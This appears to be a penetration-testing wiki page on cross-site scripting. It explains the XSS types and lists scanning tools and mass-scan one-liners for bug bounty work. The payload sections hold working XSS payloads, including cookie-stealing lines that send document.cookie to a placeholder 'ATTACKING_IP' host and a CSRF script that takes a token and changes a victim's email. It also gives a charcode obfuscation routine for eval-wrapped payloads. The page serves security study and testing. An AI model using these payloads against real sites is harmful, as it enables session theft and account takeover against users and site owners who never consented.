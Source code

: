 # XSS (Cross-Site Scripting)

## Theory

Cross-Site Scripting (XSS) is a security vulnerability that occurs when an application includes untrusted data in a web page. Attackers can inject malicious scripts into web pages viewed by other users. These scripts execute in the context of a user's browser, which can lead to a wide range of attacks, such as stealing cookies, session tokens, or sensitive data, defacing websites, or redirecting users to malicious sites.

There are three major types of XSS:

* **Stored XSS**: The injected payload is permanently stored on the server and served to other users when they access the page.
* **Reflected XSS**: The payload is included in the page as a result of a user action, like clicking on a malicious link or submitting a form.
* **DOM-based XSS**: while stored and reflected XSS attacks exploit vulnerabilities in the server-side code, a DOM-based XSS exploits client-side ones (e.g. JavaScript used to help dynamically render a page). DOM-based XSS usually affect user inputs that are temporarily reflected, just like reflected XSS attacks.

## Practice

### Tools

{% tabs %}
{% tab title="XSStrike" %}
[XSStrike](https://github.com/s0md3v/XSStrike) (Python) can be used to scan website for XSS

```bash
python xsstrike.py -u https://target.url/
```
{% endtab %}

{% tab title="Dalfox" %}
[Dalfox](https://github.com/hahwul/dalfox) is a powerful open-source XSS scanner and utility focused on automation.

```bash
# Scan an URL
dalfox url http://testphp.vulnweb.com/listproducts.php?cat=1

# From an URLs file
cat urls.txt | dalfox pipe
```
{% endtab %}

{% tab title="XSSer" %}
[XSSer](https://github.com/epsylon/xsser) (Python) is a tool that can detect, exploit and report XSS vulnerabilities on a web application

```bash
# --Cl : Crawl only local target(s)
# -c : Number of urls to crawl on target(s)
# --Cw: Deeping level of crawler: 1-5
# -s: show advanced statistics output results
# --auto: Inject a list of vectors provided by XSSer
# --xml: Export to XML
python xsser -u https://target.url -c 50 --Cw 1 --Cl -s --threads 5 --timeout 30 --retries 1 --delay 0 --auto --xml out.xml
```
{% endtab %}

{% tab title="toxssIn" %}
[toxssin](https://github.com/t3l3machus/toxssin) (Python) is an open-source penetration testing tool that automates the process of exploiting Cross-Site Scripting (XSS) vulnerabilities. It consists of an https server that works as an interpreter for the traffic generated by the malicious JavaScript payload that powers this tool (toxin.js).

```bash
# Generate certificates
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Start toxssin server
python3 toxssin.py -u https://your.domain.com -c /your/certificate.pem -k /your/privkey.pem
```

On the target side, XSS payload should looks like:

```html
<script url="https://your.domain.com/handler.js"></script>
```
{% endtab %}

{% tab title="One-Liners" %}
Here are some handy one-liners to automate XSS scans on domains using tools like [gau](https://github.com/lc/gau), [hakrawler](https://github.com/hakluke/hakrawler), [waybackurls](https://github.com/tomnomnom/waybackurls), [katana](https://github.com/projectdiscovery/katana), [uro](https://github.com/s0md3v/uro), [qsreplace](https://github.com/tomnomnom/qsreplace), [httpx](https://github.com/projectdiscovery/httpx), [Gxss](https://github.com/KathanP19/Gxss), [Dalfox](https://github.com/hahwul/dalfox), [Gospider](https://github.com/jaeles-project/gospider).

{% hint style="success" %}
It may be usefull for bug bounty hunting
{% endhint %}

{% hint style="info" %}
**domains.txt** -> text file containing domain names (ex: test.domain.com)

**urls.txt** -> text file containing URLs (ex: http://test.domain.com)
{% endhint %}

```bash
# HTTPX
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep -Ev "\.(jpeg|jpg|png|ico|gif|css|woff|svg)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"

# Dalfox
cat domains.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | sort -u |grep http| dalfox pipe

# Curl
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable "\033[0m";done

# URLS and Dalfox
gospider -S urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe

# Dalfox, gf
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep '=' | gf xss | sed 's/=.*/=/' | sort -u | dalfox pipe
```
{% endtab %}
{% endtabs %}

### Enumeration - Find XSS Vulnerabilities

We have to identify input vectors that may not be properly sanitized and that are stored or reflected. For example:

* URI parameters for reflected and DOM-based XSS
* Other user inputs in forums, chats, comments, posts, and other stored content for stored XSS
* HTTP headers like Cookies (and even User-Agents in some cases)

We can input special characters and observe the output to determine if any of the special characters return unfiltered. The most common special characters used for this purpose include:

```
< > ' " { } ;
```

The following [website](https://transformations.jobertabma.nl/) (or [Github](https://github.com/jobertabma/transformations)) can assist in recognizing the alterations made to user inputs, which can aid in circumventing filters and modifications, enabling the exploitation of XSS vulnerabilities.

### Payloads

{% tabs %}
{% tab title="PoC" %}
Generally we will use following payloads as a proof of concept. It will open an alert window.

```html
// Classic Payloads
<script>alert('XSS');</script>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG onmouseover="alert('XSS')">
<<SCRIPT>alert("XSS");//<</SCRIPT>
<A HRef=//X55.is AutoFocus %26%2362 OnFocus%0C=import(href)>

// Useful payloads
<K OnPointerRawUpdate=alert(1)>
<K OnPointerMove=alert(1)>
\’/alert(1)//
<K ContentEditable AutoFocus OnFocus=alert(1)>
<Svg OnLoad=alert(1)>
<Img Src=//X55.is OnLoad=import(src)>
```
{% endtab %}

{% tab title="Stealing Cookies" %}
We may send back user cookies to our own webserver using following payloads

```html
<script>var i=new Image;i.src="http://ATTACKING_IP/?"+document.cookie;</script>
<img src=x onerror=this.src='http://ATTACKING_IP/?'+document.cookie;>
<img src=x onerror="this.src='http://ATTACKING_IP/?'+document.cookie; this.removeAttribute('onerror');">
```

On the attacking webserver, we may use [XSS-cookie-stealer.py](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py) to logs each inbound HTTP connection and all the cookies contained in that connection.

{% hint style="info" %}
[The HttpOnly flag](https://owasp.org/www-community/HttpOnly) instructs the browser to deny JavaScript access to the cookie. If this flag is set, we won't be able to steal the cookies.
{% endhint %}
{% endtab %}

{% tab title="CSRF" %}
We may use an XSS vulnerability to perform a CSRF (Cross-Site-Request-Forgery) and make actions on behalf of the user.

```html
#Exemple from https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

We may improve our payload for more reliability. First, compress it using [this website](https://jscompress.com/), and then past it as the following `encode_to_javascript` function argument&#x20;

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Run the function and copy result (charcode) to our final payload

```html
<script>eval(String.fromCharCode(121,19,32 [...] 120,95,42,31))</script>
```
{% endtab %}
{% endtabs %}

### CSP

CSP is a browser security mechanism that aims to mitigate [XSS](https://portswigger.net/web-security/cross-site-scripting) and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages. To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

{% tabs %}
{% tab title="CSPBypass" %}
[**CSPBypass.com**](https://cspbypass.com/), is an [open-source tool](https://github.com/renniepak/CSPBypass) designed to help ethical hackers bypass restrictive Content Security Policies (CSP) and exploit XSS (Cross-Site Scripting) vulnerabilities on sites where injections are blocked by CSPs that only allow certain whitelisted domains.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-community/attacks/xss/" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting" %}

{% embed url="https://www.thehacker.recipes/web/inputs/xss" %}
